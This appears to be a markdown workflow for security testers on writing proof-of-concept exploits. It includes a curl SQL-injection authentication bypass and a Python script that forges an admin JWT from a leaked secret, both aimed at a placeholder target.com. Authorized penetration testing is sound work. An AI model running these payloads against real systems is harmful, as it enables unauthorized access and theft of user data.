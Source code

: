 # Proof-of-Concept Exploit Generation Workflow

## Objective
Generate practical proof-of-concept exploits that demonstrate vulnerability exploitability.

## Steps

1. **Identify Exploit Target**
   - Specific vulnerability to demonstrate
   - Target endpoint or functionality
   - Required preconditions

2. **Choose PoC Format**
   - cURL commands for API exploits
   - Python scripts for complex exploits
   - Bash scripts for command injection
   - SQL queries for injection vulnerabilities
   - JavaScript for XSS/CSRF

3. **Write PoC Exploit**
   - Include clear comments
   - Document expected behavior
   - Add safety warnings
   - Provide cleanup instructions

4. **Validate PoC**
   - Test in safe environment
   - Document success indicators
   - Include screenshots/output if helpful

## PoC Templates

### API Exploit (cURL)
```bash
#!/bin/bash
# PoC: SQL Injection in User Search (VULN-001)
# Impact: Complete database access
# Exploitability: Trivial
# WARNING: For authorized testing only!

TARGET="https://target.com/api/search"

# Exploit: Bypass authentication
curl -X POST "$TARGET" \
  -H "Content-Type: application/json" \
  -d '{"query": "' OR '1'='1 --"}' \
  -v

# Expected: Returns all users including admin accounts
```

### Python Exploit Script
```python
#!/usr/bin/env python3
"""
PoC: Authentication Bypass via JWT Secret Exposure (VULN-003)
Impact: Any user account takeover
Exploitability: Moderate (requires JWT knowledge)
WARNING: For authorized testing only!
"""

import jwt
import requests

# Step 1: Extract JWT secret from exposed config
JWT_SECRET = "hardcoded_secret_from_config"  # Found in VULN-002

# Step 2: Forge admin JWT token
payload = {
    "user_id": 1,
    "role": "admin",
    "exp": 9999999999
}
forged_token = jwt.encode(payload, JWT_SECRET, algorithm="HS256")

# Step 3: Use forged token to access admin endpoints
response = requests.get(
    "https://target.com/api/admin/users",
    headers={"Authorization": f"Bearer {forged_token}"}
)

print(f"Status: {response.status_code}")
print(f"Response: {response.json()}")

# Expected: 200 OK with all user data
```

## Output
Generate working PoC exploits with clear documentation and safety warnings.

